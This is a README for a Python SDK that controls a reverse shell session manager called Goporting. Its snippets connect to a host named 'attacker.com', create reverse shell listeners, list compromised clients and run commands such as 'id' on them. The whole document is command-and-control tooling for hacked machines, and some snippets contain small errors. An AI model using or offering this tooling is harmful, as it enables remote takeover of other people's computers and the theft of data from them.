 # Goporting-Python

Python SDK for reverse shell sessions manager [Goporting v1.3.1](https://github.com/ThraetCode/Goporting)

## Install

```bash
pip install goporting-python
```

## Usage

### Connect to Goporting endpoint
```python
import goporting_python as pp

p = pp.Goporting("attacker.com", 7331)
```

### Create a reverse shell server

```python
server = p.create_server("0.0.0.0", 13339)
```

### Stop a reverse shell server

```python
server = servers[0]
server.delete()
```

### Get all available listening servers

```python
servers = p.get_servers()
for server in servers():
    print(server)
```


### Get all online Clients of a server

```python
server = servers[0]
clients = server.get_clients()
for client in clients:
    print(client)
```

### Execute a command on a client

```python
client = clients[0]
client.system("id")
```
